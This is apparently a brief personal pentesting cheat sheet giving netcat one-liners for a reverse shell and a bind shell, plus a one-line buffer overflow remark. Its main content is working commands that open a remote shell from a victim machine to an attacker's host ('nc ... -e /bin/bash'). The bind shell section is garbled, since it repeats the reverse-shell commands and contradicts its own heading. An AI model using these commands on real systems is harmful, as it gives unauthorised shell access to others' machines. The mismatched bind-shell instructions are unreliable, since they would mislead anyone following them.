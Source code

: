 # Reverse shell
Connection from the target to the attacker
//opening port with netcat on my system
nc -nvlp 4444

//establishing connection on the victims system
nc 192.168.0.6 4444 -e /bin/bash

# Bind shell
Connection from the attacker to the target  
//opening port with netcat on the target 
nc -nvlp 4444

//establishing connection on my pc
nc 192.168.0.6 4444 -e /bin/bash

# Buffer overflow
Local bo is not intereseting check for remote bo